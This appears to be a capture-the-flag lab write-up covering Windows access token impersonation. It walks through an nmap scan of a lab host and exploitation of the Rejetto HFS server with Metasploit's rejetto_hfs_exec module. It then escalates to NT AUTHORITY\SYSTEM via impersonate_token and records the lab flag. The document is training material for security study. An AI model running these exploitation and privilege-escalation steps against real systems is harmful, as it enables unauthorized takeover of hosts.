 # 🔬Access Token

## Lab 1 <a href="#lab-1" id="lab-1"></a>

> 🔬 [Privilege Escalation: Impersonate](https://attackdefense.com/challengedetails?cid=2353)
>
> * Target IP: `10.0.28.102`
> * **Access Token impersonation**

### Enumeration

```bash
root@attackdefense:~# nmap 10.0.28.102
Starting Nmap 7.91 ( https://nmap.org ) at 2024-07-06 11:22 IST
Nmap scan report for 10.0.28.102
Host is up (0.0018s latency).
Not shown: 995 closed ports
PORT     STATE SERVICE
80/tcp   open  http
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3389/tcp open  ms-wbt-server

Nmap done: 1 IP address (1 host up) scanned in 5.60 seconds
```

* Determine the version information of the web server on port `80`

<figure><img src="../../../../../.gitbook/assets/image (21) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Without using `nmap`, the `http` server version can be checked in a browser by opening the link

* `http://10.0.28.102/`

<figure><img src="../../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
searchsploit hfs
```

<figure><img src="../../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Exploitation

```bash
msfconsole -q
msf6 > search rejetto
```

<figure><img src="../../../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
msf6 > use exploit/windows/http/rejetto_hfs_exec
msf6 exploit(windows/http/rejetto_hfs_exec) > show options
msf6 exploit(windows/http/rejetto_hfs_exec) > set RHOSTS 10.0.28.102
msf6 exploit(windows/http/rejetto_hfs_exec) > exploit
```

<figure><img src="../../../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Migrate current x86 `meterpreter` session to a x64 process

<figure><img src="../../../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
Access is denied because current user `LOCAL SERVICE` don't have access to an privileges user account
{% endhint %}

<figure><img src="../../../../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

This `meterpreter` session (with this particular user account) can be utilized to impersonate other access tokens available.

### Privilege Escalation <a href="#privilege-escalation" id="privilege-escalation"></a>

#### **Access Token Impersonation**

<figure><img src="../../../../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* `ATTACKDEFENSE\Administrator` account access token would provide elevated privileges

<figure><img src="../../../../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../../.gitbook/assets/image (11) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Listing tokens with this account, there can be additional available tokens

<figure><img src="../../../../../.gitbook/assets/image (12) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* `NT AUTHORITY\SYSTEM` can be impersonated, getting the privileges associated with its access token

```bash
impersonate_token "NT AUTHORITY\SYSTEM"
```

<figure><img src="../../../../../.gitbook/assets/image (13) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* In the case of no Delegation or Impersonation tokens found, the `Potato Attack` can be used to get or generate a `NT AUTHORITY/SYSTEM` access token, impersonating it and obtain privileges associated to it.
* Get the flag of the lab:

```bash
cd C:\\Users\\Administrator\\Desktop\\
```

<figure><img src="../../../../../.gitbook/assets/image (14) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
Flag: x28c832a39730b7d46d6c38f1ea18e12
{% endhint %}

